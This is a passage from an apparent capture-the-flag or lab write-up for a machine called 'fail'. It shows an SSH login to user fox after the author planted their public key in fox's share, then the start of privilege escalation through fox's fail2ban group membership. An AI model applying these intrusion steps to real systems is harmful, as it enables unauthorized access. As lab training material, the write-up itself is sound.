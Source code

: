 We have successfully placed our SSH public key to **fox**'s share.

Let us login now.

```
┌──(root💀nehal)-[~]
└─# ssh -i ~/Documents/keys/id_rsa fox@192.168.139.126
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ bash -i
fox@fail:~$ whoami && hostname
fox
fail
```

We have shell as user **fox**. You can read the user flag now.

![](assets/img/fail-pg/meme2.gif)

## PRIVILEGE ESCALATION:

```
fox@fail:~$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

We can see that the user **fox** is a part of **fail2ban**. 
